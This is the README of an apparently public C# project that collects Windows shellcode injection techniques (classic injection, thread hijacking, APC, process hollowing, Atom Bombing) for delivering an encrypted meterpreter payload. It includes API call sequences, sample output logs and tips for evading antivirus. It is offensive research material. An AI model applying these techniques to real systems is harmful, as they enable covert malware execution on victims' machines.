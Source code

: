 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

If you do use any of the code in these repositories **keep it legal!**

## Assembly Injection
You can use a [PowerShell assembly injection technique](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/assembly-injection.ps1) if you want to avoid writing .Net binaries to disk.

## Shellcode Runner
[ShellcodeRunner.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ShellcodeRunner.cs) : This technique isn't strictly an injection technique (because we execute the shellcode in the same process) but is the simplest of all techniques. We ensure the shellcode uses a fixed memory location in an `unsafe` context. We change the protection on the page where the shellcode is located so we can execute it. We then use a C# delegate function to execute the shellcode.

```
[+] Using technique: ShellcodeInjectionTechniques.ShellcodeRunner
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x20D000418E0
[+] Executing shellcode - memory address: 0x20D000418E0
```

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Local Thread Hijacking
[LocalThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/LocalThreadHijack.cs) : This technique creates a new local thread in a suspended state, we then hijack the thread, sets the instruction pointer (RIP) to our injected code and then resume the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.LocalThreadHijack
[+] CreateThread() - thread handle: 0x374
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x270800418E0
[+] GetThreadContext() - thread handle: 0x374
[+] RIP is: 0x7FFA79EE2630
[+] SetThreadContext(), RIP assigned: 0x270800418E0
[+] ResumeThread() - thread handle: 0x374
```

## Asychronous Procedure Call Injection
[ACPInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/APCInjection.cs) : This technique is similar to the Thread Hijacking technique. We inject the shellcode into a remote thread, then queue an APC object in the thread. When the thread enters an alertable state (when it calls `SleepEx`, `SignalObjectAndWait`, `MsgWaitForMultipleObjectsEx`, `WaitForMultipleObjectsEx`, or `WaitForSingleObjectEx`) it runs our shellcode pointed to by our queued APC object. 

```
[+] Found process: 25320
[+] Using technique: ShellcodeInjectionTechniques.APCInjection
[+] Found thread: 23796
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x24E064D0000
[+] WriteProcessMemory() - remote address: 0x24E064D0000
[+] QueueUserAPC() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Atom Bombing
[AtomBomb.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/AtomBomb.cs) : This technique is interesting in how we write shellcode to the target process. We use the Global Atom Table which allows us to write null terminated strings with a maximum size of 255 bytes. We find a code cave to write our shellcode to, then use APC calls to trigger the target process to read the Atom Names into memory. Finally we use a couple of APC calls to change the memory protection of the target and execute the shellcode.

My code differs from the original [Atom Bombing](https://www.fortinet.com/blog/threat-research/atombombing-brand-new-code-injection-technique-for-windows) technique, written in C/C++. First, I chain Atom Names together, using multiple APCs, to form a shellcode of larger than 255 bytes. I don't use ROP chains to force the target process to call `VirtualProtect` and then execute the code, I use the APC queue.

This code requires the main thread to enter an alertable state in order to execute the APC queue and I do not clean up after the shellcode execution, the target process becomes unstable. I plan to improve on this technique (by seraching for alertable threads and cleaning up afterwards), but as a PoC it works well.

```
[+] Found process: 14140
[+] Using technique: ShellcodeInjectionTechniques.AtomBomb
[+] Found thread: 5940
[+] OpenThread() - thread handle: 0xD0
[+] FindWritablePages() - number found: 2
[+] Found a suitable code cave - pWritable: 0x2CE60031
[+] GetProcAddress() - pGlobalGetAtomNameW: 0x7FFE20EB2680
[+] GlobalAddAtom() - ATOM: 0xC091
[+] NtQueueApcThread() - pWritable: 0x2CE60031
[+] GlobalAddAtom() - ATOM: 0xC06F
[+] NtQueueApcThread() - pWritable: 0x2CE600F9
[+] GlobalAddAtom() - ATOM: 0xC080
[+] NtQueueApcThread() - pWritable: 0x2CE601C1
[+] GlobalAddAtom() - ATOM: 0xC088
[+] NtQueueApcThread() - pWritable: 0x2CE60289
[+] GlobalAddAtom() - ATOM: 0xC084
[+] NtQueueApcThread() - pWritable: 0x2CE60351
[+] GetProcAddress() - pVirtualProtect: 0x7FFE20EBBC70
[+] NtQueueApcThread() PAGE_EXECUTE_READWRITE - codeCave: 0x2CE60031
[+] QueueUserAPC() - codeCave: 0x2CE60031
```

## Notes
The Atom Bombing technique places null terminated strings in the Global Atom Table, this means you must use shellcode that doesn't have 0x00 characters in it.

Remember you will need to start a process to inject to, except when using the shellcode runner, local thread hijack technique or the process hollowing technique (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the shellcode runner, local thread hijack technique or the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
